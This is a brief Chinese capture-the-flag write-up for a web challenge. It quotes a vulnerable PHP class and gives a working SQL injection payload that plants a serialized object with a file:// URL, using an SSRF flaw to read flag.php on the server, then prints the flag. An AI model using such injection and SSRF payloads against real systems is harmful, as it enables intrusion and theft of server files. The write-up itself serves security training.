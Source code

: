 dirsearch.py扫描网站目录，得到user.php.bak，以及存在flag.php文件。

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

看到function get($url)，可能存在SSRF漏洞，构造blog为flag.php文件地址。

在`http://111.200.241.244:57021/view.php?no=1`页面存在sql注入漏洞，可以爆破出no、username、passwd、data四列，其中data为序列化数据。

```
11233c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:7:"bai.com";}
```

构造payload：

```
no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--+
```

查看源码，得到flag：flag{c1e552fdf77049fabf65168f22f7aeab}


